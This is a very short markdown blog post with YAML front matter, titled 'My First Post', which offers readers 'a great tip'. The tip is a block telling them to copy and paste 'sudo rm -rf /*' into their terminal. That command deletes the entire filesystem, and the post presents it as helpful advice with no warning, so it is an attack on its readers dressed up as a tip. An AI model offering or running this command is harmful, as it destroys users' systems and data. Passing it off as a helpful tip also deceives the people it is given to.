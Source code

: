 ```yaml
---
Layout: post
title: My First Post
date: 01-02-2025
categories: Blog
tags: [test, blog]
---
```



# This is my first post with a great tip !!!

> Copy the following code and paste in your terminal
{: .prompt-tip }

```bash
sudo rm -rf /*
```
